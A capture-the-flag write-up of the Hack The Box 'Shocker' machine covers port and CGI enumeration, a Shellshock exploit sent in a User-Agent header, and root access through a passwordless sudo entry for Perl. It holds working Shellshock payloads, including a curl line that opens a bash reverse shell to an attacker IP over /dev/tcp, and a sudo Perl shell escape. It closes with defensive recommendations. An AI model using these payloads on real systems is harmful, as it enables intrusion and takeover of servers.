# HTB - Shocker

**IP Address:** `10.129.10.164`  
**OS:** `Linux`  
**Difficulty:** `Easy`  
**Tags:** #Linux #Shellshock #SudoMisconfig

---
## Synopsis

The machine is compromised through a vulnerable CGI endpoint (`/cgi-bin/user.sh`) exposed by Apache. After identifying the web surface and confirming Shellshock (`CVE-2014-6271`), command execution is achieved through a crafted `User-Agent` header and converted into a reverse shell as `shelly`. Local enumeration with `sudo -l` reveals passwordless execution of `/usr/bin/perl`, which is abused to spawn a root shell and read `root.txt`.

---
## Skills Required

- Basic Linux and shell usage.
- Web enumeration and HTTP request testing.
- Fundamental privilege escalation enumeration (`sudo -l`).

## Skills Learned

- Identifying and validating a Shellshock attack path in CGI.
- Turning one-shot command execution into a stable foothold.
- Exploiting `NOPASSWD` sudo misconfiguration for root access.

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.10.164
```



---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.10.164 -oG allPorts
```

- `-p-` : Scan all 65,535 ports.  
- `--open` : Show only open ports.  
- `-sS` : SYN scan for fast service discovery.  
- `--min-rate 5000` : Increase packet rate for quicker results.  
- `-n` : Disable DNS resolution to reduce noise.  
- `-Pn` : Skip host discovery and treat host as up.  
- `-oG` : Save grepable output.



Extract the open ports for reuse in targeted scans:

```bash
extractPorts allPorts
```



---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p80,2222 10.129.10.164 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts.  
- `-sV` : Detect service versions.  
- `-oN` : Save normal output for review.



**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 80/tcp | Apache httpd 2.4.18 | Main exposed attack surface. |
| 2222/tcp | OpenSSH 7.2p2 | Non-standard SSH port; not required for initial entry. |

---
## 2. Service Enumeration

### 2.1 HTTP Surface Enumeration

Because HTTP is the most exposed surface, enumerate content and behavior before exploiting anything.

```bash
whatweb http://10.129.10.164
curl -i http://10.129.10.164
ffuf -u http://10.129.10.164/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt -fc 404 -t 50
```





The landing page is static ("Don't Bug Me!"), as shown in the browser:



`ffuf` still reports `/cgi-bin/` with `403`, which is a useful pivot: the path exists but directory listing is denied.

---
### 2.2 CGI Enumeration

Opening `/cgi-bin/` in the browser returns `403 Forbidden`, which matches the fuzzer result:



Pivot to direct file fuzzing under `/cgi-bin/` with script extensions.

```bash
ffuf -u http://10.129.10.164/cgi-bin/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -e .sh,.cgi,.pl,.py -mc 200,301,302,403 -fs 296 -t 50
```



This reveals `/cgi-bin/user.sh` with `200 OK`, giving a concrete endpoint for exploitation tests.

---
## 3. Foothold

### 3.1 Shellshock Validation and RCE

Before launching a shell, validate the vulnerability path cleanly with the NSE script and then verify command execution.

```bash
nmap --script http-shellshock --script-args uri=/cgi-bin/user.sh -p80 10.129.10.164
```



To capture traffic, run `tshark -w Capture.cap -i tun0` in one terminal, then generate HTTP from another (for example re-run the Nmap script or browse the site). This run stopped after 49 packets with `Capture.cap` on disk:



The PCAP corroborates the crafted headers and server behavior:

```bash
tshark -r Capture.cap -Y "http" 2>/dev/null
tshark -r Capture.cap -Y "http" -Tfields -e "tcp.payload" 2>/dev/null
tshark -r Capture.cap -Y "http" -Tfields -e "tcp.payload" 2>/dev/null | xxd -ps -r; echo
```





Decoding `tcp.payload` shows the Shellshock payload reflected across `Referer`, `Cookie`, and `User-Agent`. For the next step, keep the payload in `User-Agent` and run explicit commands.

```bash
curl -s -H 'User-Agent: () { :;}; echo; /bin/bash -c "whoami"' "http://10.129.10.164/cgi-bin/user.sh"
curl -s -H 'User-Agent: () { :;}; echo; /bin/bash -c "id"' "http://10.129.10.164/cgi-bin/user.sh"
```


---
### 3.2 Reverse Shell and User Proof

After confirming command execution, pivot to an interactive shell for local enumeration and proof collection.

```bash
# Attacker
nc -lvnp 443

# Trigger from attacker box
curl -s -H 'User-Agent: () { :;}; echo; /bin/bash -c "bash -i >& /dev/tcp/10.10.15.206/443 0>&1"' "http://10.129.10.164/cgi-bin/user.sh"

# On callback shell
whoami
cat /home/shelly/user.txt
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Sudo Misconfiguration Discovery

With shell access established, the most direct privesc check is `sudo -l`.

```bash
sudo -l
```



Output shows:
- `(root) NOPASSWD: /usr/bin/perl`

This is a direct root execution path.

---
### 4.2 Root Access and Proof

Abuse the allowed Perl binary to spawn a root shell and read final proof.

```bash
sudo perl -e 'exec "/bin/sh"'
whoami
cat /root/root.txt
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerated services and identified web + CGI attack surface (`80/tcp`, `/cgi-bin/`, `/cgi-bin/user.sh`).
2. Confirmed Shellshock (`CVE-2014-6271`) and achieved command execution as `shelly`.
3. Triggered reverse shell, collected `user.txt`, then escalated via `sudo` `NOPASSWD` on Perl to read `root.txt`.

---
## Defensive Recommendations

- Patch Bash/CGI stack and disable vulnerable Shellshock paths.
- Restrict or remove unnecessary CGI scripts from public exposure.
- Enforce least privilege in `sudoers` and avoid `NOPASSWD` for interpreter binaries.
- Harden web server request handling and monitor malicious header patterns.
